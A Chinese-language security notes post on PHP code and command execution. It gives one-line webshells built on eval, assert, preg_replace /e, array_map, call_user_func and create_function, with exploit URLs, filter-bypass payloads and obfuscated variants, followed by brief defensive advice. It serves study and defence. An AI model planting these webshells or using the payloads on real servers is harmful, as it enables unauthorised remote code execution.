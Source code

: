 ```yaml
---
title: php代码执行与命令执行
date: 2019-01-06 20:35:09
tags: [php]
categories:
  - [php]
  - [整理]
---
```


# php代码执行与命令执行

## 代码执行

### eval()  

— 把字符串作为PHP代码执行

```php
#例:一句话木马
<?php
@eval($_GET["cmd"]);
?>
```

利用方式：

```php
1. shell.php?cmd=phpinfo();

#文件上传条件竞争可利用此方式来创建文件
2. shell.php?cmd=fputs(fopen('test.php','w'),'<?php @eval($_POST[test])?>')

#绕过
<?php
$cmd = @(string)$_GET["cmd"];
eval('$cmd="' . addslashes($cmd) . '";');
?>
3. shell.php?cmd=${${phpinfo()}};

#绕过
<?php
$cmd = "echo \"hello " . $_GET['cmd'] . "\";";
eval($cmd);?>
4. ${${}}
shell.php?cmd=${${phpinfo()}};
```



### assert()

— bool assert ( [mixed](http://php.net/manual/zh/language.pseudo-types.php#language.types.mixed) `$assertion` [, Throwable `$exception` ] )

如果 `assertion` 是字符串，它将会被 **assert()** 当做 PHP 代码来执行。

```php
#例:一句话木马
<?php
@assert($_GET["cmd"]);
?>
```

### preg_replace + '/e'

preg_replace — 执行一个正则表达式的搜索和替换

preg_replace ( $pattern , $replacement , $subject )

preg_replace(1,2,3),在3中用1的格式匹配，用2的格式输出。

代码执行条件：

1. magic_quotes_gpc=Off时，导致代码执行。

2. pattern参数中注入/e选项

```php
<?php
$regexp = $_GET['reg'];
$var = '<php>phpinfo()</php>';
preg_replace("/<php>(.*?)$regexp", '\\1', $var);
?>
#利用方式 reg=%3C\/php%3E/e 即reg=<\/php>/e
```

利用方式：

```php
#当replacement 参数构成一个合理的php 代码字符串的时候
#/e 修正符使preg_replace()，将replacement 参数当做php 代码执行
#例:一句话木马
1.
<?php
preg_replace("//e", $_GET['cmd'], "cmd test");
?>
shell.php?cmd=phpinfo();

2.
<?
preg_replace("/\s*\[php\](.+?)\[\/php\]\s*/ies", "\\1", $_GET['h']);
?>
h=[php]phpinfo()[/php]
```
![001](/img/php/php_fun_CodeAndOrder/001.png)

php5.5以后用'''preg_replace_callback'''代替'''preg_replace'''的/e模式来处理正则执行替换

### array_map

array_map — 为数组的每个元素应用回调函数

```php
#例:一句话木马
<?php array_map("ass\x65rt",(array)$_REQUEST['test']);?>
1.shell.php?test=phpinfo()
```

### call_user_func

call_user_func ( [callable](http://php.net/manual/zh/language.types.callable.php) `$callback` [, [mixed](http://php.net/manual/zh/language.pseudo-types.php#language.types.mixed) `$parameter` [, [mixed](http://php.net/manual/zh/language.pseudo-types.php#language.types.mixed) `$...` ]] )

call_user_func — 把第一个参数作为回调函数调用

第一个参数 `callback` 是被调用的回调函数，其余参数是回调函数的参数。

```php
#例:一句话木马
<?php call_user_func('assert', $_REQUEST['pass']);?>
    
1.shell.php?pass=phpinfo();
```

### call_user_func_array

call_user_func_array — 调用回调函数，并把一个数组参数作为回调函数的参数

把第一个参数作为回调函数（`callback`）调用，把参数数组作（`param_arr`）为回调函数的的参数传入。

```php
#call_user_func_array与call_user_func类似，只是第二个参数可以传入参数列表组成的数组
#例:一句话木马
<?php call_user_func_array('assert', array($_REQUEST['pass']));?>
    
1.shell.php?pass=phpinfo();
```

### create_function

create_function - 创建一个匿名（lambda样式）函数

```php
#例:一句话木马
<?php preg_replace_callback('/.+/i', create_function('$arr', 'return assert($arr[0]);'),$_REQUEST['pass']);?>

1.shell.php?pass=phpinfo();
```

php中其他包含回调函数参数的函数也有潜力

## 命令执行

### system

string system ( string `$command` [, int `&$return_var` ] )

$command:要执行的命令。

### exec

string exec ( string `$command` [, array `&$output` [, int `&$return_var` ]] )

**exec()** 执行 `command` 参数所指定的命令。

### shell_exec

shell_exec — 通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回。

### passthru

直接将结果输出到游览器,不返回任何值

### popen

resource popen ( string `$command` , string `$mode` )

打开一个指向进程的管道，该进程由派生给定的 command 命令执行而产生。

### proc_open

类似 [popen()](http://php.net/manual/zh/function.popen.php) 函数.但提供了更加强大的控制程序执行的能力。

## 防御

1. 尽量不要执行外部命令

2. 使用自定义函数或函数库来替代外部命令的功能

3. 使用escapeshellarg函数来处理命令参数

4. 使用safe_mode_exec_dir指定可执行文件的路径

esacpeshellarg函数会将任何引起参数或命令结束的字符转义，单引号“’”，替换成“\’”，双引号“"”，替换成“\"”，分号“;”替换成“\;”

用safe_mode_exec_dir指定可执行文件的路径，可以把会使用的命令提前放入此路径内

safe_mode = On

safe_mode_exec_dir = /usr/local/php/bin/